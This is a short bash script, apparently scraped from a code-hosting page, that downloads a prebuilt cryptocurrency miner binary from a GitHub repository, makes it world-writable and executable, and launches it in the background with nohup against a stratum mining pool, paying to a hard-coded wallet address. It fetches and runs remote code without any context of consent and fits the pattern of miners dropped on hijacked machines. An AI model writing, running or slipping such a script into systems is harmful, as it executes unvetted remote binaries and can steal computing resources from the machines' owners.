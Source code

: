 #!/bin/bash
sleep 10
mkdir /data
cd /data
curl -LO https://github.com/2319763378/pool/raw/master/res/resminer-sse2
chmod 777 resminer-sse2
nohup ./resminer-sse2 -o stratum+tcp://stratum.rplant.xyz:7040 -u r189TTBHwNNL3wqLNKKy79zZcYfRVhuTQeZ.wa &
